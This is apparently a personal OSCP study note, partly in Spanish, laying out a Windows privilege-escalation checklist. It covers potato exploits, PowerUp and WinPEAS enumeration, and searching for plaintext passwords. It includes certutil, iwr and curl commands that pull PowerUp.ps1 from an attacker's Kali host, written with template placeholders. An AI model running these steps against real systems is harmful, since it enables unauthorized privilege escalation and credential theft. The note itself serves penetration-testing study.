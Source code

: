 [Guia Linkeadin Top](linkedin.com/pulse/muhammad-nomans-oscp-journey-comprehensive-review-noman-khalid-rwmse/)
[Privs Windows interesante](https://sushant747.gitbooks.io/total-oscp-guide/content/privilege_escalation_windows.html)
## Steps

 - Run whoami /all (if enabled, then use printspoofer or god potato).

- Simply run PowerUp, then find privileges on unquoted DLL, etc.

- Upload WinPEAS for further enumeration if the above does not work. WinPEAS mostly finds plaintext passwords.

- Lastly, find any executable (exe), PowerShell script (ps1), or PDF file running. Run it for further enumeration and search on Google for additional details.

### Upload

- only run on cmd

```sh
certutil.exe -urlcache -split -f http://<% tp.frontmatter["IPKali"] %>:<% tp.frontmatter["PuertoServers"] %>/PowerUp.ps1
```

- power shell

```powershell
iwr -uri http://<% tp.frontmatter["IPKali"] %>:<% tp.frontmatter["PuertoServers"] %>/PowerUp.ps1 
```

- both

```sh
curl <% tp.frontmatter["IPKali"] %>:<% tp.frontmatter["PuertoServers"]%>/PowerUp.ps1 -Outfile PowerUp.ps1
```


### check Plaintext Password

•              Folders Name: C Folder | Document Folder

•              run winpeas

•              check history with command

•              check exe files in C or desktop etc

•              \users\noman\documents\fileMonitorBackup.log

### File Permission

F> Full access | M> Modify access |RX> Read and execute access| R>Read-only access| W>Write-only
- check permission
- 
```powershell
icacls "C:\xampp\apache\bin\fida.exe" 
```
